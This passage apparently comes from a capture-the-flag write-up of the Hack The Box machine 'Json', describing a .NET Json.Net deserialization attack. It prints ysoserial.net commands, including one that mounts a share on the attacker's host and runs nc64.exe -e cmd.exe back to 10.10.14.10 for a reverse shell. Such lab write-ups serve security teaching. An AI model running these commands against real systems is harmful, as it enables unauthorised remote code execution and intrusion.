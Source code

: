 If I delete 3 more characters, the error changes:

```

{"Message":"An error has occurred.","ExceptionMessage":"Cannot deserialize Json.Net Object","ExceptionType":"System.Exception","StackTrace":null}

```

This is interesting.

### Deserialization Attack

Any time a server is deserializing input that the user provides, there’s likely a issue I can exploit. I also see in the error message that it’s a `Json.Net Object`. I used a tool called [YSoSerial](https://github.com/frohoff/ysoserial) back in [Arkham](/2019/08/10/htb-arkham.html) to do a deserialization attack against a Java object. There’s a similar tool called [YSoSerial.Net](https://github.com/pwntester/ysoserial.net) for .NET deserialization attacks. I can provide a command, as well as a gadget chain and formatter, and it will give me the object to pass to Json.

### RCE POC

`ysoserial.net` has a ton of gadgets, each with different formatters. It took a while playing around with different options to get one to work. I was drawn to gadgets that had a formatter named `Json.Net`, as that was the kind of object that I saw in the error message. I’ll jump over to my Commando Windows VM, where I tested with a simple `ping` payload, and kept Wireshark open to watch for replies. WindowsIdentity with Json.Net formatter worked:

```

PS > ysoserial.exe -g WindowsIdentity -f Json.Net -c "ping 10.10.14.10" -o base64
ew0KICAgICAgICAgICAgICAgICAgICAnJHR5cGUnOiAnU3lzdGVtLlNlY3VyaXR5LlByaW5jaXBhbC5XaW5kb3dzSWRlbnRpdHksIG1zY29ybGliLCBWZXJzaW9uPTQu...[snip]...

```

I sent the GET request for `/api/Account/` to Repeater in Burp, and replaced the Bearer header with the base64 encoded output from `ysoserial`. When I sent it the one above, I got hits in Wireshark:

![1569923892976](https://0xdfimages.gitlab.io/img/1569923892976.png)

This shows I can execute commands.

### Shell

I’ve got my CommandoVM set up with `C:\share` such that a user, dummy, can access it. `nc64.exe` is in the share, so I’ll just have Json connect to the share and run `nc` from there:

```

PS > ysoserial.exe -g WindowsIdentity -f Json.Net -c "net use \\10.10.14.10\share /u:dummy dummy & \\10.10.14.10\share\nc64.exe -e cmd.exe 10.10.14.10 443" -o base64
ew0KICAgICAgICAgICAgICAgICAgICAnJHR5cGUnOiAnU3lzdGVtLlNlY3VyaXR5LlByaW5jaXBhbC5XaW5kb3dzSWRlbnRpdHksIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwg...[snip]...

```

